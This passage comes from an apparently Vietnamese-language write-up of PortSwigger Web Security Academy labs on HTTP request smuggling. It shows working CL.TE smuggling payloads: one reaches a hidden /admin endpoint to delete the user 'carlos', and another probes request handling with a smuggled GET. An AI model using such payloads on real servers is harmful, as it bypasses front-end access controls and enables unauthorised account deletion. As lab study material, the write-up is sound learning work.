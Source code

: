 >Thành công có thể truy cập `/admin`, lấy đường dẫn xóa `carlos` và send:
>![image](https://hackmd.io/_uploads/SyFmv_7OC.png)

>Hoàn thành bài lab:
>![image](https://hackmd.io/_uploads/Sk9Nvd7uA.png)

>Payload sử dụng:
```
POST / HTTP/1.1
Host: 0a5b0097035db07e8199dec2007900b4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

86
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

a
0


```

### **8. Lab: Exploiting HTTP request smuggling to reveal front-end request rewriting**
![image](https://hackmd.io/_uploads/rkIdFo7uC.png)

>Đầu tiên, cần xác định lab này thuộc loại gì, send request có nội dung như sau:
```
POST / HTTP/1.1
Host: 0a44003f049511988075ad0d00dd0074.web-security-academy.net
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
Foo: x




```
>![image](https://hackmd.io/_uploads/rkdtm37dC.png)
